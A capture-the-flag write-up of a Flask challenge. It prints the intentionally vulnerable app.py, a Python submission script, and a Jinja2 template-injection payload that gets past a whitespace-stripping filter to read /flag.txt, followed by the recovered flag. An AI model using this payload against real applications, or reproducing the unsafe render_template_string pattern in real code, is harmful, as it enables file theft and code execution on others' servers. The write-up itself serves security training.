


# Fantasy Book

Here is my writeup of the last web challenge of a private CTF. (Challenge by Mizu)

Task: A new flask social media website has been made for all the adventures. At the first look, it seems to be secure, but you still having a bad feeling about it. Go deeper in your research and find a way to get the flag (/flag.txt)

## First overview


There are 3 pages: homepage, profile and login.

We have to login first:



There are a lot of parameters which can be potential attack vectors, let's try to login.



All parameters are reflected, hum let's brainstorm... This is a flask application, it creates profiles, parameters are reflected maybe a SSTI! (This [paper](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) from Podalirius explains how SSTI works :p)

But a blind SSTI ? Let's check ``/robots.txt``:

```
User-agent: *
Disallow: /backup
```

There is a backup! Let's have a look:

```py
from flask import Flask, render_template_string, render_template, make_response, request, redirect, session
from os import urandom
from re import sub

# Flag is located to /flag.txt

# Create the APP
app = Flask(__name__)
app.config["SECRET_KEY"] = urandom(16)

# Secure input
def secure(s):
    r = ["{{", "}}", "", "\.[a-zA-Z]", "import", "os", "system", "self", '\["', " "]
    for elem in r:
        s = sub(elem, "", s)
    return s


# Error handler
@app.errorhandler(404)
def page_not_found(error):
    return redirect("/", 302)


# robots.txt
@app.route("/robots.txt", methods=["GET"])
def robots():
    with open(file="robots.txt", mode="r") as file:
        response = make_response(file.read(), 200)
        response.mimetype = "text/plain"
    return response


# Home page
@app.route("/", methods=["GET"])
def index():
    # Init
    if "logged" not in session:
        session["logged"] = None
    return render_template("index.html", logged=session["logged"])


# Home page
@app.route("/profile", methods=["GET", "POST"])
def profile():
    # Init
    if "logged" not in session:
        session["logged"] = None

    if session["logged"] == True:
        pic = secure(session["picture"])
        desc = render_template_string(f"What a cool user picture #{pic}") 

        if request.method == "GET":
            return render_template("profile.html", logged=session["logged"], desc=desc, user=session)

        elif request.method == "POST":
            message = request.form.get("message")

            if message == "":
                return render_template("profile.html", logged=session["logged"], desc=desc, user=session, post="empty")
            else:
                session["messages"] = session["messages"] + [message] # bug on append not getting saved after each posts
                return render_template("profile.html", logged=session["logged"], desc=desc, user=session)
    else:
        return redirect("/login", 302)


# Login page
@app.route("/login", methods=["GET", "POST"])
def login():
    if "logged" not in session:
        session["logged"] = None

    if request.method == "GET" and session["logged"]:
        return redirect("/profile", 302)
    elif request.method == "GET":
        return render_template("login.html")

    elif request.method == "POST":
        username = request.form.get("username")
        age = request.form.get("age")
        sexe = request.form.get("sexe")
        picture = request.form.get("picture")
        description = request.form.get("description")

        # Check if not empty
        if username == "" or age == "" or sexe == "" or picture == "" or description == "":
            return render_template("login.html", login="empty", logged=session["logged"])
        else:
            session["logged"] = True
            session["username"] = username
            session["age"] = age
            session["sexe"] = sexe
            session["picture"] = picture
            session["description"] = description
            session["messages"] = []
            return redirect("/profile", 302)


# Logout page
@app.route("/logout", methods=["GET"])
def logout():
    session["logged"] = None
    session["username"] = None
    session["age"] = None
    session["sexe"] = None
    session["picture"] = None
    session["description"] = None
    session["messages"] = None
    return render_template("index.html", logged=session["logged"])


# Backup
@app.route("/backup", methods=["GET"])
def backup():
    with open(file="app.py", mode="r") as file:
        response = make_response(file.read(), 200)
        response.mimetype = "text/plain"
    return response
```

Hummm... There is a lot of code and only one line is interesting:

```py
desc = render_template_string(f"What a cool user picture #{pic}") 
```

There is clearly a SSTI with the picture, but picture name is sanitized in ``secure()`` function, let's exploit it!

## Exploitation

Here is ``secure()`` function:

```py
def secure(s):
    r = ["{{", "}}", "", "\.[a-zA-Z]", "import", "os", "system", "self", '\["', " "]
    for elem in r:
        s = sub(elem, "", s)
    return s
```

We can't inject ``{{`` or ``{%`` so it's impossible to SSTI... BUT look a the last filter, secure function replaces whitespaces by empty string, so to bypass ``{{`` filter we can put ``{ {``. Let's try to have a 500 code on the page that confirms that is working.

I made a python script to make easier the submitting:

```py
import requests
from bs4 import BeautifulSoup as bs
from re import sub

def secure(s):
    r = ["{{", "}}", "", "\.[a-zA-Z]", "import", "os", "system", "self", '\["', " "]
    for elem in r:
        s = sub(elem, "", s)
    return s

payload = input("Payload: ")

data = {
    "username":"oui",
    "age":"oui",
    "sexe":"oui",
    "picture":payload,
    "description":"oui"
}

r = requests.post("http://fantasybook.ec2qualifications.esaip-cyber.com/login", data=data)

soup = bs(r.text, 'html.parser')
img = soup.find("img", attrs={"id":"alert"})

print(f"Payload: {secure(payload)}")

if img is None:
    print("Error 500")
else:
    print(img)
```

Let's try with ``{ {``:

```
[Fantasy Book]~$ python3 fantasy_book.py 
Payload: { {

Payload sanitized: {{

Error 500
```

Yeah! Let's exploit it now!

We have to read a remote file so let's this payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---read-remote-file):

```py
{{ get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read() }}
```

We have 2 filters to bypass, ``{{`` and ``\.[a-zA-Z]``, we will use the same method to bypass it, here is our new payload:

```
{ {get_flashed_messages.__globals__.__builtins__. open("/flag. txt"). read()} }
```

We put a whitespace between dots and letters because the regex doesn't allow dots near letters. So after the ``secure()`` function it will render our payload:

```
[Fantasy Book]~$ python3 fantasy_book.py 
Payload: { {get_flashed_messages.__globals__.__builtins__. open("/flag. txt"). read()} }

Payload sanitized: {{get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read()}}


```

Yes! Here is our flag: ``R2Lille{SST1_4r3_Qu1T3_FUnn1_Fl3sK_L0v3RS}``.